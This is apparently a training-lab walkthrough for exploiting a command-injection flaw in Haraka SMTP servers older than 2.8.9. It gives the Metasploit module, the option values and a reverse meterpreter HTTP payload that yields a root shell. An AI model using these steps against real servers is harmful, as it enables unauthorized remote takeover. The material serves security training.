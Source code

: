 # Exploiting a Vulnerable SMTP Server

+ SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.

+ SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.

+ Haraka is an open source high performance SMTP server developed in Node.js.

+ The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to V2.8.9 are vulnerable to command injection.

## Laboratory

- Start the postgresql server by running `service postgresql start`.

- Start the msfconsole and check the database status.

- Create a new workspace and import your nmap scan results. We can name it haraka for this example.

- Set globally the target IP with `setg RHOSTS $TARGET_IP`, do this for the RHOST option as well.

- We can start by using db_nmap to start scanning the target machine. Or you can import them from an external xls nmap result file.

**Note**: The target machine is the next ip after your ip address. If your ip is x.x.x.2, the target IP will be x.x.x.3.

- We are going to make a quick search for the module `search type:exploit name:haraka` and we should find the module `exploit/linux/smtp/haraka`. For this module we will need to set the right SRVHOST and SRVPORT, the email_from and the email_to test addresses, and the payload we want to execute on the target. We can use the following values in this example:

    + SRVHOST: 0.0.0.0
    + SRVPORT: 9898 (Random port)
    + email_to: root@attackdefense.test (must be accepted by the remote server, in this case root@attackdefense.test is accepted)
    + payload: linux/x64/meterpreter_reverse_http (preferable a non-staged payload)
    + LHOST: eth1 (or your ip address)

**Note**: SRVPORT default value is 8080, but as we need that port number for the http payload, we are going to change it to 9898.

- The payload should execute swiftly and provide a meterpreter session right away with elevated privileges (root).
